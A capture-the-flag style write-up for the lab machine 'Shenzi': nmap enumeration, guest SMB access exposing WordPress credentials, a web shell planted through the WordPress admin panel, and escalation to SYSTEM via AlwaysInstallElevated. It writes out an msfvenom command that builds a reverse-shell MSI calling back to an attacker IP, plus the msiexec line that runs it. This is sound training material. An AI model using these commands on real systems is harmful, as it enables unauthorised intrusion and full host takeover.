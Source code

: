 # Shenzi

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.201.55 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 13:46 +08
Nmap scan report for 192.168.201.55
Host is up (0.18s latency).
Not shown: 65520 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
5040/tcp  open  unknown
7680/tcp  open  pando-pub
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

Lots of ports here. FTP doesn't allow for anonymous access.&#x20;

### SMB Access -> WP Creds

`smbmap` shows that there are a few shares we can access:

```
$ smbmap -u guest -p '' -H 192.168.201.55            
[+] IP: 192.168.201.55:445      Name: 192.168.201.55                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        IPC$                                                    READ ONLY       Remote IPC
        Shenzi                                                  READ ONLY
```

The share had a few interesting files:

```
$ smbclient -U guest //192.168.201.55/Shenzi         
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu May 28 23:45:09 2020
  ..                                  D        0  Thu May 28 23:45:09 2020
  passwords.txt                       A      894  Thu May 28 23:45:09 2020
  readme_en.txt                       A     7367  Thu May 28 23:45:09 2020
  sess_klk75u2q4rpgfjs3785h6hpipp      A     3879  Thu May 28 23:45:09 2020
  why.tmp                             A      213  Thu May 28 23:45:09 2020
  xampp-control.ini                   A      178  Thu May 28 23:45:09 2020
```

`passwords.txt` contained some credentials to a Wordpress instance, while the rest of the files were rather uninteresting:&#x20;

```
$ cat passwords.txt
1) MySQL (phpMyAdmin):

   User: root
   Password:
   (means no password!)

2) FileZilla FTP:

   [ You have to create a new user on the FileZilla Interface ] 

3) Mercury (not in the USB & lite version): 

   Postmaster: Postmaster (postmaster@localhost)
   Administrator: Admin (admin@localhost)

   User: newuser  
   Password: wampp 

4) WEBDAV: 

   User: xampp-dav-unsecure
   Password: ppmax2011
   Attention: WEBDAV is not active since XAMPP Version 1.7.4.
   For activation please comment out the httpd-dav.conf and
   following modules in the httpd.conf
   
   LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so  
   
   Please do not forget to refresh the WEBDAV authentification (users and passwords).     

5) WordPress:

   User: admin
   Password: FeltHeadwallWight357
```

### Web Enumeration -> WP RCE

Port 80 shows the default XAMPP page:

<figure><img src="../../../.gitbook/assets/image (1091).png" alt=""><figcaption></figcaption></figure>

There was a PHPInfo page that we could view for more clues.&#x20;

<figure><img src="../../../.gitbook/assets/image (1612).png" alt=""><figcaption></figcaption></figure>

The only interesting thing to note is that the user is named `shenzi` on the machine. We need to be finding this wordpress instance. However, all directory scans failed to find any instance of `wp-content` or `wp-admin`.&#x20;

I was stuck here for a while, until I visited `/shenzi` to test, and it worked!

<figure><img src="../../../.gitbook/assets/image (114).png" alt=""><figcaption></figcaption></figure>

With this, we can easily login to the admin panel and replace one of the PHP files with a web shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (2725).png" alt=""><figcaption></figcaption></figure>

Then, we can get a reverse shell by downloading `nc.exe` onto the machine and executing it:

<figure><img src="../../../.gitbook/assets/image (291).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### AlwaysInstallElevated -> SYSTEM

I ran `winPEAS.exe` to enumerate the machine for me. It picked up on AlwaysInstallElevated being misconfigured:

<figure><img src="../../../.gitbook/assets/image (175).png" alt=""><figcaption></figcaption></figure>

Using this, we can generate an MSI payload using `msfvenom` and run it on the system, which would give us a reverse shell as the SYSTEM user.&#x20;

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.191 LPORT=21 -f msi -o shell.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: shell.msi
```

Afterwards, transfer this file over to the machine and run `msiexec` on it:

```
C:\Windows\Tasks>msiexec /quiet /qn /i shell.msi
```

This would give us a reverse shell as the SYSTEM user on a listener port:

<figure><img src="../../../.gitbook/assets/image (2358).png" alt=""><figcaption></figcaption></figure>
